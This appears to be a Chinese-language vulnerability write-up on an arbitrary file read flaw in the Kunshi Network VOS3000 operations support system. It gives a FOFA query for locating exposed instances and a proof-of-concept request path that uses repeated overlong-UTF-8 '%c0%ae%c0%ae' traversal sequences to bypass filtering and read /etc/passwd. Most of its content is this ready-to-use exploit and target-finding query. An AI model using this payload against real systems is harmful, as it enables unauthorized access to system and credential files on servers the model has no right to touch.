 # 昆石网络 VOS3000虚拟运营支撑系统 %c0%ae%c0%ae 任意文件读取漏洞

## 漏洞描述

昆石网络 VOS3000虚拟运营支撑系统 通过 %c0%ae%c0%ae 等字符绕过检测，可导致任意文件读取漏洞

## 漏洞影响

```
昆石网络 VOS3000虚拟运营支撑系统
```

## FOFA

```
app="VOS-VOS3000"
```

## 漏洞复现

登录页面

![image-20220525144202606](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205251442673.png)

验证POC

```
/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
```

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205251443278.png)